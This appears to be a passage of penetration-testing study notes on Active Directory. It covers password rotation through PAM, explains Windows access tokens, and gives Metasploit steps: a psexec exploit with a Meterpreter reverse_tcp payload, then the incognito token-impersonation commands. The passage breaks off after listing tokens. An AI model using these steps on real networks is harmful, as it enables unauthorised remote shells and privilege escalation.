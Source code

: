 -  Privilege Access Management (PAM)
	- Check out/in sensitive accounts when needed 
	- Automatically rotate passwords on check out and check in
	- Limits pass attacks as hash/password is strong and constantly rotated

<br>

## Token-Impersonation

---

### What are tokens? 

Temporary keys that allow you access to a system/network without having to provide credentials each time you access a file. Think cookies for computers. 

<br> 

### Two types
- Delegate - Created for logging into a machine or using Remote Desktop 
- Impersonate - "non-interactive" such as attaching a network drive or a domain logon script

<br>

### Setup

- Set up msfconsole

		use exploit/windows/smb/psexec
		
		options
		
		set RHOSTS
		
		set smbdomain
		
		set smbuser
		
		set smbpass
		
		show targets
		
		set target {Native Upload}
		
		set payload windows/x64/meterpreter/reverse_tcp
		
		options
		
		set LHOSTS
		
		run

<br>

- Token Impersanation Attack

		load incognito
		
		list_tokens -u
		